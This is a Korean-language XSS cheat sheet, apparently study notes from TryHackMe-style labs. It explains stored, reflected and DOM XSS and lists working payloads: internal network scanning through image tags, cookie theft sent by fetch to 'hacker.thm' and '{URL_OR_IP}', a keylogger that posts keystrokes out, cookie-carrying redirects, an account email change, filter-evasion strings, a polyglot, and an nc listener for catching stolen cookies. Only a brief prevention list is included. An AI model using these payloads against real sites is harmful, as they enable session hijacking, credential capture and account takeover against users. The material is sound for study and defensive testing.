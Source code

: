 xss
#
`category`
- stored
- reflected

#
`Stored XSS`

#
`Reflected xss`

#
`DOM 기반 xss`

reflected xss를 사용하면 
```
<html>
    You searched for <em><script>...</script></em>
</html>
```
다음과 같이 주입되며 다른 자바스크립트의 실행에 영향을 주지 않는다.

DOM 기반 xss는
```
var keyword = document.querySelector('#search')
keyword.innerHTML = <script>...</script>
```
다음과 같이 취약한 자바스크립트가 로드되거나 상호작용할 때 실행한다.

![image](https://blog.kakaocdn.net/dn/ceorJc/btrruzWbwlD/lKYNCRKs2K2SQa8ykL8yn0/img.png)

```
" onmouseover="alert('Hover over the image and inspect the image element')"
```
![image](https://blog.kakaocdn.net/dn/cPNKX4/btrrpTO99so/uwR7QB58kfJ5wT1J7pzUD0/img.png)

```
" onmouseover="document.body.style.backgroundColor='red'"
```
![image](https://blog.kakaocdn.net/dn/9C9GV/btrrpTuSA7g/haxFHW6xgJDcS6wmYd5WW0/img.png)
#
`xss를 사용한 ip, port scan`

`라우터의 웹 인터페이스가 192.168.0.1인지 확인`
```
<img src="http://192.168.0.1/favicon.ico" onload="alert('Found')" onerror="alert('Not found')">
```

`192.168.0.0 ~ 192.168.255의 내부 네트워크 scan`
```
<script>
 for (let i = 0; i < 256; i++) {
  let ip = '192.168.0.' + i

  let code = '<img src="http://' + ip + '/favicon.ico" onload="this.onerror=null; this.src=/log/' + ip + '">'
  document.body.innerHTML += code
 }
</script>
```
#
XSS Payload

`session 도용`
```
<script>fetch('https://hacker.thm/steal?cookie=' + btoa(document.cookie));</script>
```
#
`xss keylogger`

```
<script type="text/javascript">
 let l = ""; // Variable to store key-strokes in
 document.onkeypress = function (e) { // Event to listen for key presses
   l += e.key; // If user types, log it to the l variable
   console.log(l); // update this line to post to your own server
 }
</script>
```
```
<script>document.onkeypress = function(e) { fetch('https://hacker.thm/log?key=' + btoa(e.key) );}</script>
```
#
`쿠키`
```
<script>alert(document.cookie)</script>
```
![image](https://blog.kakaocdn.net/dn/OX4LS/btrroXkem3o/Xpp5STh8o8xkCxkQx3oVvk/img.png)

```
<script> window.location='http://attacker/?cookie='+document.cookie </script>
```
이 스크립트는 사용자 브라우저를 다른 URL로 이동하게 한다. 아래 예시
```
<script>document.location='/log/'+document.cookie</script>
```
/logs 에서 쿠키를 획득하면 이를 사용하여 피해자를 가장할 수 있다. 

![image](https://blog.kakaocdn.net/dn/SFqTI/btrruBmaqNy/wPcpOVK2WEbLc4orLZmhY1/img.png)
#
`시스템 ip주소`
```
<script>alert(window.location.hostname)</script>
```
![image](https://blog.kakaocdn.net/dn/bLDEz4/btrrxXJiKdK/TlxXoX97J320x95KUflGG0/img.png)

#
`사이트 바꾸기`
```
<script>document.getElementById('thm-title').innerHTML="I am a hacker"</script>
```
![image](https://blog.kakaocdn.net/dn/DdAi4/btrrqmQ7SKI/qTXGgwGEIzg0R2GdAYztS0/img.png)


#
`비지니스 로직`

user email 변경
```
<script>user.changeEmail('attacker@hacker.thm');</script>
```
#
Filter Evasion

`<script>를 제거하는 필터를 무시`
```
<img src=x onerror=alert('Hello');>
```
```
<sscriptcript>alert('THM');</sscriptcript>
```
`alert 필터`
```
0\"autofocus/onfocus=alert(1)--><video/poster/onerror=prompt(2)>"-confirm(3)-"
```
```
<img src="blah" onerror=confirm("Hello") />
```
`Hello 단어 필터`
```
<style>@keyframes slidein {}</style><xss style="animation-duration:1s;animation-name:slidein;animation-iteration-count:2" onanimationiteration="alert('Hello')"></xss>
```
```
<img src="blah" onerror=alert("HHelloello") />
```


- word "Hello"
- script
- onerror
- onsubmit
- onload
- onmouseover
- onfocus
- onmouseout
- onkeypress
- onchange
```
<style>@keyframes slidein {}</style><xss style="animation-duration:1s;animation-name:slidein;animation-iteration-count:2" onanimationiteration="alert('Hello')"></xss>
```

`tag 닫아주고 payload`
```
"><script>alert('THM');</script>
</textarea><script>alert('THM');</script>
';alert('THM');//
```

`Polyglots`
XSS 다중 언어는 속성, 태그 및 우회 필터를 모두 하나로 이스케이프할 수 있는 텍스트 문자열

'<'를 escape할 때

```
jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */onerror=alert('THM') )//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert('THM')//>\x3e
```
#
`예방`
- escape
- 입력 유효성
- 데이터 삭제
#
`exploit`

```
nc -lvnp 1234
```
또는
```
python3 -m http.server
```
```
</textarea><script>fetch('http://{URL_OR_IP}?cookie=' + btoa(document.cookie) );</script>
```
- btoa() : base64로 인코딩
- document.cookie : 웹의 피해자 쿠키에 접근

![image](https://blog.kakaocdn.net/dn/1QRjw/btrrsnWj31t/5pnumPWkuiSZLfalazfPD0/img.png)

